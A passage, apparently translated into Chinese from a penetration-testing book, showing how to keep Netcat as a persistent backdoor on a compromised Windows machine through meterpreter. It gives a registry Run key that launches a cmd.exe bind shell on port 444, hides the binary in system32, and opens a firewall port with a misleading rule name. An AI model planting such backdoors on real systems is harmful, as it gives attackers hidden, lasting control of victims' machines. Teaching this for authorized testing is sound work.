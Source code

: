 上一个命令的执行如以下屏幕截图所示：

![Employing Netcat as a persistent agent](graphics/3121OS_06_05.jpg)

您不必专门将其放在`system32`文件夹中；但是，由于此文件夹中文件类型的数量和多样性，这是在受损系统中隐藏文件的最佳位置。

### 提示

在一台客户机上进行渗透测试时，我们在一台服务器上识别出六个独立的 Netcat 实例。Netcat 已由两名独立的系统管理员安装两次，以支持网络管理；其他四个实例由外部攻击者安装，直到渗透测试后才被识别。因此，务必查看您的目标上是否已安装 Netcat！

如果您没有`meterpreter`连接，可以使用**普通文件传输协议**（**TFTP**）传输文件。

接下来，使用以下命令将注册表配置为在系统启动时启动 Netcat，并确保它正在侦听端口 444（或您选择的任何其他端口，只要未使用）：

```
meterpreter>reg setval -k
  HKLM\\software\\microsoft\\windows\\currentversion\\run -vv nc
  -d 'C:\\windows\\system32\\nc.exe -Ldp 444 -e cmd.exe' 

```

使用以下`queryval`命令确认注册表中的更改已成功实施：

```
meterpreter>reg queryval -k
  HKLM\\software\\microsoft\\windows\\currentverion\\run -vv nc 

```

使用`netsh`命令，在本地防火墙上打开一个端口，以确保受损系统将接受到 Netcat 的远程连接。了解目标的操作系统很重要。对于 Windows Vista 和 Windows Server 2008 及更高版本，`netsh advfirewall firewall`命令行上下文是用于；`netsh firewall`命令用于早期的操作系统。

要向本地 Windows 防火墙添加端口，请在`meterpreter`提示符下输入`shell`命令，然后使用相应的命令输入`rule`。命名`rule`时，使用`svchostpassthrough`等名称，表明`rule`对系统的正常运行很重要。示例命令如下所示：

```
C:\Windows\system32>netsh firewall add portopening TCP 444
  "service passthrough" 

```

使用以下命令确认更改已成功实施：

```
C:\windows\system32>netsh firewall show portopening

```

上述命令的执行如以下屏幕截图所示：

![Employing Netcat as a persistent agent](graphics/3121OS_06_06.jpg)

确认端口规则后，请确保重新启动选项有效。

*   在`meterpreter`提示符下输入以下命令：

    ```
    meterpreter> reboot
